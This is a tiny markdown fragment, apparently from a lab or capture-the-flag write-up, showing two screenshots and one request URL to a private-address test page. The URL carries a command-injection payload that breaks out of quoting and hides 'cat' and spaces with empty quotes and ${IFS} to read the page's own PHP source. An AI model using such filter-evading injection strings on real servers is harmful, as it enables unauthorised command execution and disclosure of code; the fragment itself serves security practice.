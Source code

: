 ![](assets/markdown-img-paste-20180416163359891.png)

`http://10.101.177.100:9999/test9.php?cmd=./%27;c""at${IFS}test9.php;%27`

![](assets/markdown-img-paste-20180416163320756.png)
